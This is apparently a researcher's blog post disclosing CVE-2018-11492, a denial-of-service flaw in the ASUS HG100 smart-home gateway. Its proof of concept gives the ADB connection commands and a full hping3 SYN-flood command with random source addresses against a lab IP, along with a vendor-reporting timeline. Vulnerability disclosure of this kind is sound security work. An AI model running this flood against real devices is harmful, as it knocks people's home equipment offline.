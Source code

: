 ```yaml
---
layout: post
title:  "CVE-2018-11492"
subtitle: "ASUS HG100 exists DoS vulnerability "
author: Mars Cheng
tags: 
- CVE
- ASUS
- NCCST
---
```


>Description:ASUS HG100 devices allow denial of service via an IPv4 packet flood.

>This vulnerability was discovered by Mars Cheng at **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---


## Introduction ASUS HG100 SmartHome GateWay
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## Proof of Concept
### 1.Connect to ASUS Gateway HG100 with ADB

```
adb connect 192.168.0.108
adb shell
```
![](https://i.imgur.com/lVNHkeH.png)



### 2.Execute IP v4 flood attack
* Use Hping3 tool to execute DoS attack
```
hping3 -V -c 1000000 -d 120 -S -w 64 --flood --rand-source 192.168.0.108
```
* Confirm packets status
<div style="text-align: center">
<img src="https://i.imgur.com/cGHgMYi.png"/>
</div>


### 3.Confirm device status

* Unable to connect to ADB, and DoS attack success.
<div style="text-align: center">
<img src="https://i.imgur.com/CUnM7mQ.png"/>
</div>


### Timeline
*  February 6, 2018 Reported to ASUS Security


### Reference
[1] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11492>

